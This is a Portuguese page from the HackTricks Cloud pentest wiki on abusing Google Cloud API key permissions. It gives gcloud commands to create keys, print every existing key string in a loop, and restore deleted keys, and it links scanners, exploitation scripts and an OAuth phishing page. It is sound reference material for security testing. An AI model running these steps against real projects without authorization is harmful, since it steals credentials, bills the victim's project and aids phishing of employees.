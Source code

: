 # GCP - Apikeys Privesc

<details>

<summary><strong>Aprenda hacking no AWS do zero ao herói com</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Outras formas de apoiar o HackTricks:

* Se você quer ver sua **empresa anunciada no HackTricks** ou **baixar o HackTricks em PDF**, confira os [**PLANOS DE ASSINATURA**](https://github.com/sponsors/carlospolop)!
* Adquira o [**material oficial PEASS & HackTricks**](https://peass.creator-spring.com)
* Descubra [**A Família PEASS**](https://opensea.io/collection/the-peass-family), nossa coleção de [**NFTs**](https://opensea.io/collection/the-peass-family) exclusivos
* **Junte-se ao grupo** 💬 [**Discord**](https://discord.gg/hRep4RUj7f) ou ao grupo [**telegram**](https://t.me/peass) ou **siga**-me no **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Compartilhe suas técnicas de hacking enviando PRs para os repositórios github do** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>

## Apikeys

As seguintes permissões são úteis para criar e roubar chaves de API, note isto dos documentos: _Uma chave de API é uma string criptografada simples que **identifica uma aplicação sem qualquer principal**. Elas são úteis para acessar **dados públicos anonimamente**, e são usadas para **associar** solicitações de API ao seu projeto para cota e **faturamento**._

Portanto, com uma chave de API você pode fazer com que a empresa pague pelo seu uso da API, mas você não será capaz de escalar privilégios.

Para mais informações sobre chaves de API, confira:

{% content-ref url="../gcp-services/gcp-api-keys-enum.md" %}
[gcp-api-keys-enum.md](../gcp-services/gcp-api-keys-enum.md)
{% endcontent-ref %}

### Força Bruta no acesso à chave de API <a href="#apikeys.keys.create" id="apikeys.keys.create"></a>

Como você pode não saber quais APIs estão habilitadas no projeto ou as restrições aplicadas à chave de API que encontrou, seria interessante executar a ferramenta [**https://github.com/ozguralp/gmapsapiscanner**](https://github.com/ozguralp/gmapsapiscanner) e verificar **o que você pode acessar com a chave de API.**

### `apikeys.keys.create` <a href="#apikeys.keys.create" id="apikeys.keys.create"></a>

Esta permissão permite **criar uma chave de API**:
```bash
gcloud services api-keys create
Operation [operations/akmf.p7-[...]9] complete. Result: {
"@type":"type.googleapis.com/google.api.apikeys.v2.Key",
"createTime":"2022-01-26T12:23:06.281029Z",
"etag":"W/\"HOhA[...]==\"",
"keyString":"AIzaSy[...]oU",
"name":"projects/5[...]6/locations/global/keys/f707[...]e8",
"uid":"f707[...]e8",
"updateTime":"2022-01-26T12:23:06.378442Z"
}
```
Você pode encontrar um script para automatizar a [**criação, exploração e limpeza de um ambiente vulnerável aqui**](https://github.com/carlospolop/gcp_privesc_scripts/blob/main/tests/b-apikeys.keys.create.sh).

{% hint style="danger" %}
Observe que, por padrão, os usuários têm permissão para criar novos projetos e recebem a função de Proprietário sobre o novo projeto. Assim, um usuário poderia **criar um projeto e uma chave de API dentro deste projeto**.
{% endhint %}

### `apikeys.keys.getKeyString`, `apikeys.keys.list` <a href="#apikeys.keys.getkeystringapikeys.keys.list" id="apikeys.keys.getkeystringapikeys.keys.list"></a>

Essas permissões permitem **listar e obter todas as apiKeys e obter a Chave**:
```bash
for  key  in  $(gcloud services api-keys list --uri); do
gcloud services api-keys get-key-string "$key"
done
```
Você pode encontrar um script para automatizar a [**criação, exploração e limpeza de um ambiente vulnerável aqui**](https://github.com/carlospolop/gcp_privesc_scripts/blob/main/tests/c-apikeys.keys.getKeyString.sh).

### `apikeys.keys.undelete`, `apikeys.keys.list` <a href="#serviceusage.apikeys.regenerateapikeys.keys.list" id="serviceusage.apikeys.regenerateapikeys.keys.list"></a>

Essas permissões permitem **listar e regenerar chaves de API deletadas**. A **chave de API é fornecida na saída** após a **recuperação** ser realizada:
```bash
gcloud services api-keys list --show-deleted
gcloud services api-keys undelete <key-uid>
```
### Criar Aplicação OAuth Interna para phishar outros trabalhadores

Verifique a seguinte página para aprender como fazer isso, embora essa ação pertença ao serviço **`clientauthconfig`** [de acordo com a documentação](https://cloud.google.com/iap/docs/programmatic-oauth-clients#before-you-begin):

{% content-ref url="../../workspace-security/gws-google-platforms-phishing.md" %}
[gws-google-platforms-phishing.md](../../workspace-security/gws-google-platforms-phishing.md)
{% endcontent-ref %}

<details>

<summary><strong>Aprenda hacking em AWS do zero ao herói com</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Outras formas de apoiar o HackTricks:

* Se você quer ver sua **empresa anunciada no HackTricks** ou **baixar o HackTricks em PDF**, confira os [**PLANOS DE ASSINATURA**](https://github.com/sponsors/carlospolop)!
* Adquira o [**merchandising oficial do PEASS & HackTricks**](https://peass.creator-spring.com)
* Descubra [**A Família PEASS**](https://opensea.io/collection/the-peass-family), nossa coleção de [**NFTs**](https://opensea.io/collection/the-peass-family) exclusivos
* **Junte-se ao grupo** 💬 [**Discord**](https://discord.gg/hRep4RUj7f) ou ao grupo [**telegram**](https://t.me/peass) ou **siga-me** no **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Compartilhe suas técnicas de hacking enviando PRs para os repositórios do github** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>
